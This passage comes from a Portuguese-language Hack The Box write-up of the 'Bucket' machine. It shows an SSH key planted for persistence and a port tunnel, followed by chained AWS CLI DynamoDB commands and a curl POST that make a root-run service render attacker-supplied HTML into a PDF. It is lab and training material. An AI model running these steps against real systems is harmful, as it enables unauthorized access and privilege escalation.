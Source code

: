Para os testes iniciais, conforme documentação da AWS disponível [neste link](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-dynamodb.html), criei um script para criação da tabela, inclusão de uma entrada e posterior chamada POST na URL em questão para gerar o arquivo PDF.

Para simplificar este processo, que está sendo feito da máquina atacante, realizados os seguintes procedimentos:

- Na máquina atacante, criado chave RSA (`ssh-keygen`) e atribuido chave pública dela ao usuário `roy` na máquina bucket para que não fosse necessário o uso de senhas durante a autenticação.
- Na máquina atacante também foi criado o tunelamento da porta local 8000/TCP, a qual foi redirecionada para a porta 8000 na máquina bucket, fazendo o serviço disponível também localmente, o que posteriormente foi possível validar acessando localmente a página conforme evidencia abaixo

```bash
ssh roy@10.10.10.212 -L 8000:127.0.0.1:8000 
```

![Website 8000/TCP via SSH Tunnel](https://i.imgur.com/HIP7f4S.png)

Após algumas tentativas, notei que similar ao desafio encontrado durante o upload do shell reverso, os itens criados no DynamoDB também são removidos após algum tempo, logo foi necessário encadear todas as requisições para que tivéssemos tempo para executar a ação imediatamente assim que os recursos estivessem disponíveis, assim como a posterior cópia dos ativos se obtivermos sucesso na chamada.

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><p>Content</p></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/
```

Após algumas tentativas, seguido do desafio do tempo para cópia do arquivo para a máquina atacante, foi possível gerar e copiar o arquivo PDF com base no HTML enviado.

```bash
roy@bucket:/var/www/bucket-app/files$ ls -la
total 16
drwxr-x---+ 2 root root 4096 Feb 26 18:51 .
drwxr-x---+ 4 root root 4096 Feb 10 12:29 ..
-rw-r--r--  1 root root   88 Feb 26 18:51 7627.html
-rw-r--r--  1 root root 1870 Feb 26 18:51 result.pdf
```

![Bucket HTB - PoC](https://i.imgur.com/BQIYPiy.png){: .align-center}
